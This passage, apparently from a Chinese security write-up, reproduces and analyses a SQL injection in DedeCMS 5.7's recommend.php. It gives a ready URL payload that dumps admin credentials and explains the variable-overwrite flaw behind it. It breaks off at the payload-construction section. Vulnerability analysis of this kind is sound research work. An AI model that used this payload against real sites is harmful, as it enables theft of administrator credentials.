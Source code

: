 ```yaml
---
description: 记录DedeCMS5.7漏洞信息
---
```


# DedeCMS5.7漏洞利用与分析

 源码链接：[https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw](https://pan.baidu.com/s/12PPzu6yho-ae1XRsQs5zxw) 提取码：ay3g

## 漏洞复现

在分析漏洞形成原因之前，先来看一下这个漏洞复现情况。

查看系统的发布日期，直接访问 网站url/data/admin/ver.txt

![](../.gitbook/assets/image%20%2850%29.png)

此时间发布的版本在plus/recommend.php中存在注入漏洞，在此演示直接爆出用户名和密码散列值的payload

```text
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\' or mid=@`\'` /*!50000union*//*!50000select*/1,2,3,(select CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin` limit+0,1),5,6,7,8,9%23@`\'`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
```

![&#x6F0F;&#x6D1E;&#x8868;&#x73B0;](../.gitbook/assets/image%20%2859%29.png)

## 漏洞分析

打开recommend.php,查看代码，第12行程序引入了一个common.inc.php

![](../.gitbook/assets/image%20%2846%29.png)

跟进去看一下

![](../.gitbook/assets/image%20%2821%29.png)

只要提交的URL中不包含cfg\_\|GLOBALS，即可通过检查。继续往下看代码

![](../.gitbook/assets/image%20%2810%29.png)

在第95行引入了uploadsafe.inc.php文件，查看文件代码，在第29行存在一个漏洞。

```text
$$_key = $_FILES[$_key]['tmp_name'] = str_replace("\\\\", "\\", $_FILES[$_key]['tmp_name']);
```

传入$\_key为type时 该语句就变成了对$type的赋值，导致了对$type变量覆盖，而在recommend.php中第38行，用到了$type变量来拼接sql语句。

```text
$arcRow=$dsql->GetOne("SELECT s.*,t.* FROM `#@__member_stow` AS s LEFT JOIN `#@__member_stowtype` AS t ON s.type=t.stowname WHERE s.aid='$aid' AND s.type='$type'");
```

## 如何构造payload

我们已经知道了漏洞存在的点，该如何达到目的那？



